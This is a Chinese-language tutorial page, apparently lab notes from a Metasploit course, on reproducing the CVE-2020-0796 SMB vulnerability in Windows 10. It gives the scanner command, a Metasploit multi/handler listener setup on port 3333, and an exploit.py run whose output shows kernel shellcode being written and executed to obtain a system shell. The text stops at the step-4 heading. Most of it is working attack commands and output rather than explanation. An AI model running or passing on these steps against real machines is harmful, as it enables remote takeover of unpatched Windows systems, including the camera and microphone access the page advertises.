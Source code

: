 - 2020年3月爆发的windows漏洞，1909版本以下的win10全部受到影响，运行winver查看版本
- 2004 版本为不受影响的第一个 win10 版本

![image-20240628162031743](25.Metasploit%20%E6%A1%86%E6%9E%B6/image-20240628162031743.png)

- 该漏洞可以直接获取win10系统最高权限，远程调用win10的摄像头，麦克风等等设备
- 下面我们一起来复现这个漏洞。

1. 扫描漏洞的存在

```
C:\Users\Aaron\Desktop\CVE-2020-0796-PoC>CVE-2020-0796-Scanner.exe 192.168.72.141
 本漏洞扫描工具仅限于网络安全管理员发现本组织的问题系统使用，依据网络安全法，任何攻击为目的对非授权系统的非法使用所导致的后果自负。
 [+] 目标 [192.168.72.141] 已支持SMB v3.1.1
 [-] 警告！目标 [192.168.72.141] 仍存在漏洞风险
```

2. 开启端口监听

```
kali@kali:~$ msfconsole 
 msf5 > use exploit/multi/handler 
 msf5 exploit(multi/handler) > set rhost 192.168.72.141
 msf5 exploit(multi/handler) > set lport 3333
 msf5 exploit(multi/handler) > options
 msf5 exploit(multi/handler) > run
```

3. 运行exp程序

```
root@kali:/home/kali/桌面/CVE-2020-0796-PoC/getshell# python3 exploit.py -ip 192.168.72.141
 [+] found low stub at phys addr 13000!
 [+] PML4 at 1ad000
 [+] base of HAL heap at fffff7e940000000
 [+] found PML4 self-ref entry 1fb
 [+] found HalpInterruptController at fffff7e940001838
 [+] found HalpApicRequestInterrupt at fffff8026af5ebb0
 [+] built shellcode!
 [+] KUSER_SHARED_DATA PTE at fffffdfbc0000000
 [+] KUSER_SHARED_DATA PTE NX bit cleared!
 [+] Wrote shellcode at fffff78000000950!
 [+] Press a key to execute shellcode!
```

4. 获得系统shell

